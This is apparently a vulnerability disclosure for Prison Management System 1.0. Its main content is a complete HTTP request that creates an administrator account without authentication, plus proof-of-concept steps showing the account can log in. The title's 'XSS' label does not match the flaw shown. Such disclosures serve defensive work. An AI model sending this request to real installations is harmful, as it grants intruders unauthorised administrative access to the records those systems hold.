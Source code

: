 # Prison Management System  -create_new user Identification and Authentication Failures


#### Exploit Title: Prison Management System  - create_new user Identification and Authentication Failures(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Confirmation of the user's identity, authentication, and session management is critical to protect against authentication-related attacks.

#### Payload used:
```
POST /pms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------29640840124261413792559575304
Content-Length: 1033
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/admin/?page=user/manage_user
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="id"


-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="firstname"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="middlename"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="lastname"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="username"

admin456
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="password"

admin456
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="type"

1
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------29640840124261413792559575304--


```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/pms/admin/?page=user/list，See one more user added.

   ![image-20220607102303096](img/PrisonManagementSystem--.assets/image-20220607102303096.png)

   

   

3. `admin456/admin456` can login system;

     ![image-20220607103500640](img/PrisonManagementSystem--.assets/image-20220607103500640.png)



